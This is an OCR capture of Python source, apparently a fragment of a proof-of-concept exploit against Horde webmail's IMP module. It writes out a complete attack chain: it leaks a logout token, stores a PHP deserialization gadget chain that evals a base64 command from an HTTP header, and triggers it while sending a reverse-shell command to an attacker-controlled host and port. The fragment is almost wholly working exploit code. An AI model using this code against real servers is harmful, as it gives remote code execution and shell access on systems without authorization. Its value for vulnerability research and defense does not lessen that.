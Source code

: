 ```angular2
    match = re.findall("Horde=(.{26});", r.headers['set-cookie'])
    assert len(match) == 2, "(-) failed to login"
    return match[1]

def trigger_deserialization(t, p, s, host, port):
    """ Object instantiation to reach the deserialization """
    handlerthr = Thread(target=handler, args=(port,))
    handlerthr.start()
    uri = "http://%s%sservices/ajax.php/imp/imple" % (t, p)
    p = {
        "imple" : "IMP_Prefs_Sort",
        "app" : "imp",
    }
    h = { "cmd" : base64.b64encode(rs(host, port).encode()) }
    c = { "Horde" : s }
    r = requests.get(uri, params=p, cookies=c, headers=h)
    match = re.search("horde_logout_token=(.*)&", r.text)
    assert match, "(-) failed to leak the horde_logout_token!"
    p['token'] = match.group(1)
    r = requests.get(uri, params=p, cookies=c, headers=h)
    assert r.status_code == 200, "(-) failed to trigger deserialization!"

def get_pop():
    """ An updated pop chain """
    pop  = 'O:34:"Horde_Kolab_Server_Decorator_Clean":2:{'
    pop += 'S:43:"\\00Horde_Kolab_Server_Decorator_Clean\\00_server";O:20:"Horde_Prefs_Identity":3:{'
    pop += 'S:9:"\\00*\\00_prefs";O:11:"Horde_Prefs":2:{'
    pop += 'S:8:"\\00*\\00_opts";a:1:{'
    pop += 's:12:"sizecallback";a:2:{i:0;O:12:"Horde_Config":1:{'
    pop += 'S:13:"\\00*\\00_oldConfig";s:44:"eval(base64_decode($_SERVER[HTTP_CMD]));die;";'
    pop += '}i:1;s:13:"readXMLConfig";}}'
    pop += 'S:10:"\\00*\\00_scopes";a:1:{'
    pop += 's:5:"horde";C:17:"Horde_Prefs_Scope":10:{[null,[1]]}}}'  # implements Serializable using custom unserialize/serialize
    pop += 'S:13:"\\00*\\00_prefnames";a:1:{s:10:"identities";i:0;}'
    pop += 'S:14:"\\00*\\00_identities";a:1:{i:0;i:0;}}'             # additional checks
    pop += 'S:42:"\\00Horde_Kolab_Server_Decorator_Clean\\00_added";a:1:{i:0;i:0;}}'
    return pop

def get_patch():
    """ Our original array """
    patch  = 'a:1:{'
    patch += 's:5:"INBOX";a:1:{'
    patch += 's:1:"b";i:6;'
    patch += '}}'
    return patch

def set_pref(t, p, s, k, o):
    """ A primitive that inserts a string into the database """
    uri = "http://%s%sservices/ajax.php/imp/setPrefValue" % (t, p)
    p = {
        "pref" : k,
        "value" : o,
    }
    c = { "Horde" : s }
    r = requests.get(uri, params=p, cookies=c)
    match = re.search("horde_logout_token=(.*)&", r.text)
    assert match, "(-) failed to leak the horde_logout_token!"
    p['token'] = match.group(1)
    r = requests.get(uri, params=p, cookies=c)
    assert ("\"response\":true" in r.text and r.status_code == 200), "(-) failed to set the preference!"
```